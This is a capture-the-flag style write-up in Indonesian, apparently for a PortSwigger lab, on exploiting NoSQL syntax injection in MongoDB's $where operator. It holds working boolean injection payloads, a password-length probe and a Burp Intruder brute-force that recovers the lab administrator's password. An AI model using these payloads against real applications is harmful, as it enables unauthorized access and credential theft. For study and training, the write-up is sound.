 # NoSQL Injection Lab – Exploiting Syntax Injection to Extract Data

## Lab Description

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d65cd1cd-7ed3-4cc3-b632-9aeb22fada48)

---

## Overview

### Exploiting Syntax Injection to Extract Data

Beberapa database **NoSQL** (seperti MongoDB) mengizinkan penggunaan operator atau fungsi yang dapat menjalankan kode JavaScript terbatas. Contohnya:

* Operator `$where`
* Fungsi `mapReduce()`

Jika aplikasi rentan menggunakan operator ini, maka **JavaScript** yang disuntikkan bisa dieksekusi oleh database. Artinya, kita dapat menyuntikkan payload untuk mengekstrak data sensitif.

### Exfiltrating Data in MongoDB

Misalkan aplikasi rentan mengizinkan pencarian username dan menampilkan role. Request normal:

```
https://insecure-website.com/user/lookup?username=admin
```

Akan menghasilkan query NoSQL seperti:

```json
{"$where":"this.username == 'admin'"}
```

Jika rentan, kita dapat menyuntikkan payload:

```json
admin' && this.password[0] == 'a' || 'a'=='b
```

Payload ini dapat dipakai untuk mengekstrak password karakter demi karakter.

Contoh lain menggunakan fungsi `match()`:

```json
admin' && this.password.match(/\d/) || 'a'=='b
```

Payload ini memeriksa apakah password mengandung digit.

---

## Solution

### 1. Login as Wiener

Request:

```http
GET /user/lookup?user=wiener'+' HTTP/1.1
Host: 0a5a000604a69386817f4d0c00d50033.web-security-academy.net
...
Cookie: session=IxSUIRgjxiu4z9R8PqzaavxdpaT460zx
```

Response:

```json
{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

Jika kita tambahkan `'` → `user=wiener'` maka terjadi error:

```json
{ "message": "There was an error getting user details" }
```

Namun jika menggunakan `wiener'%2b'` (URL-encoded dari `wiener'+'`), query berhasil kembali normal.

> Artinya aplikasi benar-benar **mengevaluasi query injeksi** di backend.

---

### 2. Injecting Boolean Conditions

**False Condition**

```http
?user=wiener' && '1'=='2
```

Response:

```json
{ "message": "Could not find user" }
```

**True Condition**

```http
?user=wiener' && '1'=='1
```

Response sukses, data wiener ditampilkan kembali.

---

### 3. Menentukan Panjang Password

Gunakan payload:

```nosql
?user=administrator' && this.password.length < 30 || 'a'=='b
```

Hasilnya query berhasil → password panjangnya **kurang dari 30**.

Jika payload:

```nosql
this.password.length < 8
```

Hasilnya gagal.

Maka panjang password **administrator adalah 8 karakter**.

---

### 4. Mengekstrak Password Admin

Gunakan brute force dengan payload:

```nosql
user=administrator' && this.password[0]=='a
```

#### Teknik Brute Force dengan Burp Intruder

* **Payload 1**: index karakter (0–7)
* **Payload 2**: huruf (a–z)

Contoh hasil serangan:
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f359128-701e-4712-a572-63034bbb6da1)

Password admin berhasil diperoleh:

```
oiwpuaam
```

---

### 5. Login as Admin

Gunakan password hasil brute force untuk login sebagai **administrator**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b7dee7d-f2c9-4e1b-98d8-ca8cff9e85d5)
